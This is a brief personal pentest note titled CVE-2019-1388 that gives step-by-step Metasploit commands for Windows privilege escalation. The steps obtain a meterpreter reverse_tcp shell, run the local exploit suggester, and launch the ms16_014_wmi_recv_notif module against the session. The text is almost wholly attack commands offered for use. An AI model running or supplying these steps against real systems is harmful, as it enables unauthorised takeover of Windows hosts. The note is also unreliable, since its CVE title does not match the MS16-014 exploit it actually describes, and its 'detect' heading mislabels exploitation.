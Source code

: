 ```yaml
---
title: CVE-2019-1388
updated: 2023-10-10 23:58:02Z
created: 2023-10-03 02:12:57Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# CVE-2019-1388

Detect exploits with metasploit

1. First obtain a reverse shell (windows/*x64*/meterpreter/reverse_tcp)
2. `run post/multi/recon/local_exploit_suggester`
3. Identify exploit/windows/local/ms16_014_wmi_recv_notif as a potential privilege escalation
4. `use exploit/windows/local/ms16_014_wmi_recv_notif`
5. `set SESSION [meterpreter SESSION number]`
6. `set LPORT 5555`
7. `run`